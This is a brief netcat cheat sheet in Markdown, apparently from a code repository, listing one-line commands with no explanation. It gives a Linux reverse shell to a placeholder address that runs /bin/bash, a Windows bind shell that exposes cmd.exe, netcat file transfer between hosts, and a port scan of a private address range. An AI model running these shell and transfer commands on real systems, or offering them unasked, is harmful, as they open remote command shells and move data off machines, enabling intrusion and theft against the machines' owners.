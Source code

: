 #### reverse shell (linux)
-----
```nc x.x.x.x 6969 -e /bin/bash```


#### bind shell (windows)
-----
```nc -lvp 4444 -e cmd.exe```


#### transferring files
-----
*On receiving end:*

```nc -l -p 1234 > out.file```

*On the sending end:*

```nc -w 3 [destination] 1234 < out.file```


#### port scan
-----
```nc -z -v 192.168.1.103 1-443```
